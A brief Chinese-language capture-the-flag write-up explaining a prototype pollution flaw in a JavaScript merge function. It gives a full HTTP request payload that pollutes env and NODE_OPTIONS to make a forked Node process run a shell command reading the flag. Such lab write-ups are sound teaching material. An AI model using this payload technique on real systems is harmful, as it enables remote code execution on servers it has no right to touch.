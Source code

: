 ## 分析

这里存在原型污染

```javascript
merge(target, source) {
    for (let key in source) {
        if (this.isValidKey(key)){
            if (this.isObject(target[key]) && this.isObject(source[key])) {
                this.merge(target[key], source[key]);
            } else {
                target[key] = source[key];
            }
        }
    }
    return target;
},

clone(target) {
    return this.merge({}, target);
}
```

这里可以污染`env`环境变量，然后程序会`fork`一个进程，这时候会调用到环境变量，然后利用环境变量来执行命令

```
POST /api/calculate HTTP/1.1
Host: 167.71.137.246:31406
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://167.71.137.246:31406/
Content-Type: application/json
Origin: http://167.71.137.246:31406
Content-Length: 196
Connection: close

{"name":"Kenny Baker",
"constructor":{
"prototype":{"env":{"EVIL":"console.log(require('child_process').execSync('cat flag*').toString())//"
},
"NODE_OPTIONS":"--require /proc/self/environ"}}}
```


接着再访问`http://167.71.137.246:31406/debug/version`即可

# 参考链接

[https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
